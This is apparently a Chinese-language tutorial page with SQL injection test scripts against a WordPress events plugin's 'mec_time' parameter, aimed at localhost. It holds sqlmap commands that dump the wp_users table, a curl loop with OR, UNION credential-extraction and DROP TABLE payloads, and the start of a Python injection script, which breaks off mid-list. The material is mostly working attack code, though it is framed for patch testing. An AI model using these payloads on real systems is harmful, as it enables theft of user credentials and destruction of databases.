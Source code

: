 
進階 sqlmap 命令（提取數據）：
bashpython sqlmap.py -u "http://localhost/wp/?mec_time=1" --batch --dump -D wordpress -T wp_users --columns

解釋：--dump 提取表數據，-D wordpress 指定數據庫，-T wp_users 指定用戶表。
預期輸出：提取用戶名、密碼哈希等（僅在測試環境中使用）。


腳本化 sqlmap 測試（使用 Bash 腳本自動化多個測試）：
bash#!/bin/bash
TARGET_URL="http://localhost/wp/?mec_time=1"
sqlmap -u "$TARGET_URL" --batch --level=3 --risk=3 --dbs > output_dbs.txt
sqlmap -u "$TARGET_URL" --batch --dump -D wordpress -T wp_users > output_users.txt
echo "測試完成，檢查 output_*.txt 文件。"

運行：chmod +x test_sqlmap.sh && ./test_sqlmap.sh



腳本 2: curl 手動注入測試腳本
使用 curl 模擬 HTTP 請求注入 SQL。

基本 curl 命令：
bashcurl "http://localhost/wp/?mec_time=1'%20OR%20'1'='1" -v

解釋：注入 ' OR '1'='1 來檢查是否返回所有事件數據。-v 顯示詳細響應。


Bash 腳本化多個注入測試：
bash#!/bin/bash
TARGET="http://localhost/wp/?mec_time="
PAYLOADS=(
  "1'%20OR%20'1'='1"
  "1'%20UNION%20SELECT%20username,password%20FROM%20wp_users;--"
  "1';%20DROP%20TABLE%20test_table;--"  # 僅測試環境
)
for payload in "${PAYLOADS[@]}"; do
  echo "測試 payload: $payload"
  curl "$TARGET$payload" -s | grep -i "error\|username\|password"  # 檢查洩露
done

運行：chmod +x curl_test.sh && ./curl_test.sh
預期：未修補版本可能返回數據庫錯誤或數據；修補後應無異常。



腳本 3: Python 腳本模擬攻擊
使用 Python 的 requests 庫發送注入請求。

Python 腳本範例：
pythonimport requests

target_url = "http://localhost/wp/?mec_time="
payloads = [
    "1' OR '1'='1",
    "1' UNION SELECT username, password FROM wp_users; --",
    "1'; SELECT SLEEP(5); --"  # 時間基注入測試延遲
]
